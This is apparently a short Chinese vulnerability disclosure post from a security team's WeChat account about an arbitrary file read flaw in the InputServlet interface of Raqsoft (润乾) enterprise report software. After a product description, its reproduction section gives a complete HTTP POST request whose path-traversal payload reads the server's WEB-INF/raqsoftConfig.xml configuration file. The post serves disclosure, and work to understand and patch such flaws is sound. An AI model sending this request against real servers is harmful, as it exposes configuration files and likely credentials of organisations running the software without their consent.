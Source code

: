 #  润乾报表InputServlet接口存在任意文件读取漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-04 20:27  
  
# 1. 漏洞描述  
  
  
    润乾报表是一个纯JAVA的企业级报表工具，支持对J2EE系统的嵌入式部署，无缝集成。服务器端支持各种常见的操作系统，支持各种常见的关系数据库和各类J2 EE的应用服务器，客户端采用标准纯html方式展现，支持ie和netscape， 润乾报表是领先的企业级报表分析软件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqk29AkQPbtib10CGiaUek83SkSAPVIfMFoibnqJSy0VVfehveEet6Kdm96g/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
POST /InputServlet?action=13 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

file=%2F%5C..%5C%5C..%5C%5CWEB-INF%5C%5CraqsoftConfig.xml&upFileName=web.config

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqkhweHyksXmpbBicZwaSRGJNI4U6ic4jkLNiaqPzMt1GwNicnuPaibBhmIIaA/640?wx_fmt=png&from=appmsg "")  
  
  
